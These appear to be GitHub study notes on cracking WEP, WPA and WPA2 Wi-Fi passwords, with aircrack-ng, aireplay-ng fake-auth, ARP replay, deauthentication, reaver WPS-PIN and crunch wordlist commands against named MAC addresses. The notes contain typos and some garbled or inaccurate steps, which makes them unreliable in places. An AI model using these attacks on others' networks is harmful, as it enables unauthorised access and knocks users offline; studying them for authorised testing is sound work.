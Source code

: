 # WEP Cracking:
- Wired Equivalent Privacy
- Old encryption
- Uses an algorithm called "RC4"
- Still used in some networks
- Can be cracked easily.

## Weekness
- Client encrypts data using a key
- Encrypted packet sent in the air
- Router decrypts packet using the key.

- Each packet is encrypted using a unique key stream.
- Random initialization vector (IV) is used to generate the keys streams.
- The initialization vector is only 24bits!
- IV is sent in plain text.
- IV + Key (password) = Key stream

## Result
- IV's will repeat on busy networks.
- This marks WEP vulnerable to statistical attacks.
- Repeated IVs can be used to determine the key stream
- And break the encryption

## Conclusion
To crack WEP we need to:
- Capture a large number of packets/IVs. --> using **airodump-ng**
- Analyse the captured IVs and crack the key. --> using **aircrack-ng**

First convert managed mode to monitor mode.
```bash
airodump-ng --bssid F8:23:B2:B9:50:A8 --channel 1 --write basic_wep wlan0
```
Now execute the below command,
```bash
aircrack-ng basic_wep-01.cap
```
You can get a result like this --> "KEY FOUND! [ 41:73:32:33:70 ] (ASCII: As23p)". Sometimes, the "ASCII" will be not shown. Now simply remove the : from the key (like 4173323370) and use it to connect with the network.

## Problem coulb be when:
- If network is not busy.
- It would take some time to capture enogh IVs

The **solution** of these problems are -->
- Force the AP to generate new IVs.

## Fake Authentication:
Problem:
- APs only communicate with connected clients.
- We can't communicate with it.
- We can't even start the attack

**Solution**-->
- Associate with the AP before launching the attack.

Execute below comands one-by-one.\
Step 1: Don't close the process this execution

```bash
airodom-ng --bssid 64:16:F0:EC:7B:F3 --channel 6 --write arpreplay wlan0
```
Step 2:
```bash
aireplay-ng --fakeauth 0 -a  64:16:F0:EC:7B:F3 -h 48:5D:60:2A:45:25 wlan0
```
"-h 48:5D:60:2A:45:25" is the mac accdress of my wireless adaptar. The first 12 digits of option unspec of "wlan0" or some other interface.

**Problem-->**
- If network is not busy
- It would take some time to capture enough IVs.

**Solution-->**
- Force the AP to generate new IVs.

**ARP Request Replay:**
- Wait for an ARP packet.
- Capture it, and replay it (retransmit it)
- This causes the AP to produce another packet with a new IV.
- Keep doing this till we have enogh IVs to crack the key.

```bash
aireplay-ng --arpreplay -b  64:16:F0:EC:7B:F3 -h 48:5D:60:2A:45:25 wlan0
```
Now when the number of data is increasing, execute this. The file name should be that passed when track the network.
```bash
aircrack-ng arpreplay-01.cap
```
Any now, you will get the key like before.

# WPA / WPA2 Cracking:
- Both can be cracked using the same methods like WEP
- Made to address the issues in WEP
- Much more secure
- Each packet is encrypted using a unique temporary key.

--> Packets contain no useful information.

## ARP Request Replay
- WPS is a feature that can be used with WPA & WPA2
- Allows clients to connect without the password
- Authencation is done using an 8 digit pin.
	- 8 digit is very small
	- We can try all possible pins in relatively short time.
	- Then the WPS pin can be used to compute the actual password.
	
P.S: The only works if the router is configured not to use PBC (Push Button Authentication).

## Hacking WPA & WPA2 Without a Wordlist:
Check which are available the WPS enabled. Before it, switch to monitor mode
```bash
wash --interface wlan0
```
For every possible pin to attack, first execute
```bash
reaver --bssid 0:10:18:90:2D:EE --channel 1 --interface wlan0 -vvv --no-associate
```
"-vvv" is to show as much information as possible. "--no-associate" is not to associate with the target network.

Execute below command to attack the WPA/WPA2 router. If push button is enabled, this attack might be failed.
```bash
aireplay-ng --fakeauth 30 -a 00:10:18:90:2D:EE -h 48:5D:60:2A:45:25 wlan0
```
"00:10:18:90:2D:EE" is the router mac address and "48:5D:60:2A:45:25" is the first 12 digit unspec option value of the interface. After successful execution of the process, you will get the pin like **WPS PIN: '12345670'**

## Capturing The Handshake:
- Fixed all weaknesses in WEP
- Packets contain no useful data.
- Only packets that can aid with the cracking process are the handshake packets.
	- There are 4 packets sent when a client connects to the network.

First check the routers
```bash
airodump-ng wlan0
```
Capture and store the data of that router
```bash
airodump-ng --bssid F0:B4:D2:62:54:BF --channel 6 --write wpa_handshake wlan0
```
Then have to wait unlit a new client is joined to this router to capture the handshake. But it is very time consuming. For that, we will disconnect one client from the router. Then we will stop the disconnection process of that client, then that client will automatically connect to the router again and that time we will capture the handshake packets. 
```bash
aireplay-ng --deauth 4 -a F0:B4:D2:62:54:BF -c 80:91:33:4E:7A:19 wlan0
```
"F0:B4:D2:62:54:BF" is the target router and "80:91:33:4E:7A:19" is our target client. And you will get the handshake [WPA handshake
: 00:10:18:90:2D:EE]

## Creating a Wordlist:
- The handshake does not contain data the helps recover the key.
- It contains data that can be used to check if a key is valid or not.

Crunch can be used to create a wordlist.

Syntax:
```bash
crunch [min] [max] [characters] -t [pattern] -o [Filename]

Example

crunch 6 8 123abc$ -o wordlist -t a@@@@b
```
Generated passes:
- aaaaab
- aabbbb
- aan$$b

## Cracking WPA & WPA2 Using a wordlist attack:
Two things needed to crack WPA/WPA2:
1. 4-way handshake
2. Wordlist

Execute below command to find out the key:
```bash
aircrack-ng wpa_handshake-01.cap -w test.txt
```
This will check all possible combinations and if it finds, then you will get the key of that router. It takes time according to size and number of possible combinations of text.txt file.